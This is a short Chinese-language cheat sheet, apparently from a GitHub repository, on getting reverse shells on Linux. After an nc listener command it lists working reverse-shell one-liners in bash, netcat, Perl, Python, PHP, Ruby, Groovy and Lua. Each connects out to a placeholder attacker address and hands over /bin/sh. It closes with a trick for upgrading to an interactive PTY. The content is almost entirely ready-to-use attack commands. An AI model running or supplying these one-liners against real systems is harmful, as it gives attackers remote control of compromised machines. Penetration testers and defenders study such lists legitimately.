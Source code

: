 # Linux环境中反弹shell
`@Time   : 2021/5/8 下午3:58`
`@Author : 852782749@qq.com`


```
开始编辑～
```
# 说明
```angular2html
主要涉及到nc的应用 

```

### 远程服务器开启端口监听
```angular2html
nc -l 12345
```
### 目标服务器linux反弹shell
```angular2html
nc your_ip your_port -e /bin/bash 

bash -I >& /dev/tcp/your_ip/your_port 0>&1


perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()


lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 获取shell窗口(交互式shell界面，可以根据目标环境中选择相应的命令)
```angular2html
script /dev/null

python -c 'import pty; pty.spawn("/bin/bash")' 

```


> 乾坤未定，你我皆是黑马